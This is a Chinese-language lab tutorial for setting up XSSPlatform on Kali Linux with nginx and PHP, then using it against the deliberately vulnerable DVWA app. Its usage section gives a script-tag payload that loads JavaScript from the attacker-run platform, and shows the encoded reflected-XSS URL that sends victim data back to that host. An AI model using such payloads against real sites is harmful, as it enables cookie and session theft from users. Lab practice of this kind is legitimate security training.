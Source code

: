 一个经典的XSS渗透管理平台

## 1.  install

安装依赖

```
┌──(root㉿Kali-24)-[~]
└─# apt -y install lsb-release apt-transport-https ca-certificates
```

下载 PHP 软件包的数字签名

```
┌──(root㉿Kali-24)-[~]
└─# wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
```

添加 php 源

```
┌──(root㉿Kali-24)-[~]
└─# echo "deb https://packages.sury.org/php/ buster main" >/etc/apt/sources.list.d/php.list
```

获取更新列表

```
┌──(root㉿Kali-24)-[~]
└─# apt update
```

下载 libffi6_3.2.1-9_amd64.deb

```
┌──(root㉿Kali-24)-[~]
└─# wget http://ftp.us.debian.org/debian/pool/main/libf/libffi/libffi6_3.2.1-9_amd64.deb
```

> http://ftp.us.debian.org/debian/pool/main/libf/libffi/

安装 libffi6

```
┌──(root㉿Kali-24)-[~]
└─# dpkg -i libffi6_3.2.1-9_amd64.deb
```

安装 php7.4

```
┌──(root㉿Kali-24)-[~]
└─# apt install -y php7.4-fpm php7.4-mysql
```

使 php7.4 开机自启

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now php7.4-fpm.service
```

上传 nginx 配置文件 xuegodxss，移动站点启用目录中

```
┌──(root㉿Kali-24)-[~]
└─# mv xuegodxss /etc/nginx/sites-enabled/
```

修改配置文件 xuegodxss

```
┌──(root㉿Kali-24)-[~]
└─# sed -i 's/server_name xuegodxss\.cn;/server_name 192.168.1.24;/g' /etc/nginx/sites-enabled/xuegodxss
```

启动 nginx 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now nginx.service
```

下载 XSSPlatform

```
┌──(root㉿Kali-24)-[~]
└─# git clone https://github.com/78778443/xssplatform.git
```

> 使用代理记得移除

移动 XSS 平台到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# mv xssplatform /var/www/html/xssplatform
```

修改文件权限

```
┌──(root㉿Kali-24)-[~]
└─# chown www-data:www-data -R /var/www/html
```

kali 浏览器访问

> http://192.168.1.24/

配置数据库连接信息和管理员账户

| 配置       | 信息        |
| ---------- | ----------- |
| 数据库地址 | 127.0.0.1   |
| 数据库用户 | root        |
| 数据库密码 | mysql       |
| 数据库     | xssplatfrom |
| 管理员     | admin       |
| 管理员密码 | admin       |

## 2. use

启动 Nginx

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start nginx.service
```

登录

>http://192.168.1.24/
>
>管理员  	admin
>管理员密码	admin

查看代码

![查看代码](./../../../../../images/xssplatform/%E6%9F%A5%E7%9C%8B%E4%BB%A3%E7%A0%81.png)

> XSS 平台提供一个 js 代码，只需要通过 XSS 加载 js 代码即可使用，和 beef-xss 非常像

选择代码

![选择代码](./../../../../../images/xssplatform/%E9%80%89%E6%8B%A9%E4%BB%A3%E7%A0%81.png)

```
<script src=http://192.168.1.24/Q7yYOv?1687665509></script>
```

登录 DVWA

> http://192.168.1.76/DVWA/

> admin
>
> password

进入 `XSS (Reflected)`

提交代码

查看地址栏

```
http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.1.24%2FQ7yYOv%3F1687665509%3E%3C%2Fscript%3E#
```

在 XSS 平台查看接受的内容

![在 XSS 平台查看接受的内容](./../../../../../images/xssplatform/%E5%9C%A8%20XSS%20%E5%B9%B3%E5%8F%B0%E6%9F%A5%E7%9C%8B%E6%8E%A5%E5%8F%97%E7%9A%84%E5%86%85%E5%AE%B9.png)

---

References

- [xssplatform](https://github.com/78778443/xssplatform)